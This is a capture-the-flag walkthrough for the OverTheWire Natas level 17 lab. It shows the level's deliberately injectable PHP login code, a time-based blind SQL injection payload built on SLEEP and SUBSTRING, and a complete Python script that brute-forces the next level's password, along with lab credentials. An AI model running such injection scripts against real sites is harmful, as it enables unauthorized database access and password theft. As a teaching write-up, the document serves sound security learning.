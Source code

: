 - This level is again going to test our SQLi skills, but with a twist
- First, let's analyse the mimic source code that we are presented with:
```php
<?php
/*
CREATE TABLE `users` (
`username` varchar(64) DEFAULT NULL,
`password` varchar(64) DEFAULT NULL
);
*/
if(array_key_exists("username", $_REQUEST)) {
	$link = mysqli_connect('localhost', 'natas17', '<censored>');
	mysqli_select_db($link, 'natas17');
	$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
	if(array_key_exists("debug", $_GET)) {
		echo "Executing query: $query<br>";
	}
	$res = mysqli_query($link, $query);
	if($res) {
		if(mysqli_num_rows($res) > 0) {
			//echo "This user exists.<br>";
		} else {
			//echo "This user doesn't exist.<br>";
		}
	} else {
	//echo "Error in query.<br>";
	}
mysqli_close($link);
}
?>
```
- This time, we are not getting any output based on whatever query we write. Moreover, we can't even verify if our query is correct or not (apart from seeing the debug query statement)
- This means there's no possibility for us to directly brute force the password character by character as we will not get any feedback
- So we need to think of something else that can provide us the required feedback
- Now here comes into picture the saviour for us: Time based SQL injection
- This form of SQL injection plays on the difference in timing of a successful query vs a non successful query
- For this problem, we can write the following payload to brute force the characters:
```SQL
" OR (username = "natas18"  AND IF(SUBSTRING(password, 1, 1) = BINARY "a", SLEEP(5) ,1)) -- 
```
- The payload might look gibberish, but let me break it down to make it comprehensible:
	- The payload does an AND between two operands, the left one being a simple comparison and the right one being an IF statement in MySQL
	- The IF statement in MySQL has the following syntax: ```IF(EXPRESSION, Code to execute if true, code to execute if false)```
	- Going over the IF statement, we can see that the expression is the ```SUBSTRING``` function that does some comparison, then if the comparison result is true, the ```SLEEP(5)``` command is run, and if the result is false, ```1``` is returned
	- Coming to the ```SUBSTRING``` function, it takes three parameters, the string or the column name, the start index (strings in MySQL start with index 1), and the length of the substring
	- So in the function, we compare that if the substring of length 1 starting at index 1 is equal to ```a```
	- Hence, the whole IF statement does the following:
		- If the password begins with ```a```, it will cause the MySQL server to sleep for 5 seconds, thereby delaying our response by 5 seconds
		- Otherwise, there would be no delay and our response will come after the normal delay
- Now, we can run this payload over and over again with varying length of the substring, which will reveal the password
- The script for doing the same is follows:
```python
import requests
from requests.auth import HTTPBasicAuth
URL = "http://natas17.natas.labs.overthewire.org/index.php"
CHARACTER_LIST = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
auth = HTTPBasicAuth('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')
password_str = ""
i = 1
while True:
# Since there are only 64 characters in the column, we will be this loop for 64 times only
	for character in CHARACTER_LIST:
		guess_str = password_str + character
		sqli_query = f" \" OR (username = \"natas18\" AND IF(SUBSTRING(password, 1, {i}) = BINARY \"{guess_str}\", SLEEP(5) ,1)) -- "
		print(f"SQLi payload: {sqli_query}")
		data = {'username' : sqli_query}
		r = requests.post(url = URL, data = data, auth= auth)
		print(f"Time it took for response with character {character}:{r.elapsed.total_seconds()}")
		if (r.elapsed.total_seconds() >= 5.0):
			print(f"Guess character {character} caused the query to finish in more time than expected")
			password_str += character
			i += 1
			break
	if len(password_str) == 32:
		break

print(password_str)
```
- Obtained password: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ